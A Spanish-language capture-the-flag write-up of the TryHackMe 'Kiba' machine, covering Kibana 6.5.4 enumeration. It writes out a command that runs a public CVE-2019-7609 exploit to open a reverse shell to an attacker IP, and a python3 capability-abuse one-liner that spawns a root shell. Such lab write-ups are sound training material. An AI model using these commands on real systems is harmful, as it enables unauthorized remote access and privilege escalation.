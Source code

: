 # Kiba WriteUp
Volver al [Indice](README.md)

Bueno, hoy os traigo una de las últimas, sino la última máquina creada en THM, su nombre es Kiba, en ella explotaremos una vulnerabilidad algo diferente (almenos para mí) es un software de monitorización, gráficos, etc.  
Está catalogada con un nivel de "Easy" aunque es bastante interesante esta máquina.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*
Como siempre, vamos a realizar un escaneo de los puertos, servicios y versiones para ver con lo que tratamos.

![nmap](images/kiba/nmap.png)

Vemos que tiene el puerto 80 abierto con un apache pero no vemos nada relevante ahí.  
En el puerto 5601 vemos el nombre del aplicativo (Kibana), así que accedemos vía web y nos lleva directamente al dashboard de este, echamos un ojo por encima y vemos una pestaña llamada "Dev Tools" en la que podemos insertar código, vamos a buscar su versión.

En esta pestaña, colocamos  ```"GET /"```  para ver información del sistema y, como vemos, tiene la versión 6.5.4 instalada.

![versión](images/kiba/version.png)

Hacemos una búsqueda por Google y encontramos que esta versión es vulnerable a un ataque llamado "Prototype Pollution", dejo el enlace donde encontré la vulnerabilidad.  
[Kibana 6.5.4 Vulnerability](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/#:~:text=The%20vulnerability%20was%20CVE%2D2019,Kibana%20versions%20before%205.6.&text=This%20could%20possibly%20lead%20to,process%20on%20the%20host%20system.)

Realizando diferentes pruebas con el Dashboard conseguí encontrar un exploit que automatiza directamente toda la explotación de esta vulnerabilidad y te da acceso directamente al sistema, dejo el enlace de este también.  
[CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)


## *# Explotación*
La sintáxis de este es muy sencilla.  
```python exploit.py -u "urlVíctima" -host "ipAtacante" -port "puertoEscucha" --shell```
* -u => Colocamos la URL del aplicativo "Kibana".
* -host => Colocamos la IP nuestra.
* -port => Colocamos el puerto que queremos poner en escucha.
* --shell => Para que nos saque una shell, si no lo ponemos solo nos diría si es o no vulnerable.

![exploit](images/kiba/exploit.png)

Y ya estaríamos dentro, podemos buscar la flag de user en su directorio habitual.

![userFlag](images/kiba/userFlag.png)


## *# Post-Explotación*
Como la misma sala nos da una pista de por donde pueden ir los tiros para escalar privilegios vamos a listar recursivamente los "capabilities" (los capabilities es una capa de "seguridad" dentro del sistema, permite a los usuarios usar una aplicación como "root", pero solo ese proceso, no teniendo que ser root en algunos casos y no exponiendo el sistema completamente...claro está que también puede llegar a ser una vulnerabilidad bastante obvia...lo vamos a ver) del sistema a ver si sacamos algo.

![capabilities](images/kiba/getcap.png)

Dentro del directorio ".hackmeplease" (suena interesante ya de primeras, ¿no?) vemos que el binario de python3 tiene permisos de root y podemos ejecutarlo como vimos con los "capabilities", vamos a lanzarnos una shell a ver si conseguimos ROOT...  
```./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'```

![rooFlag](images/kiba/rootFlag.png)

Y una vez más..¡Somos ROOT!

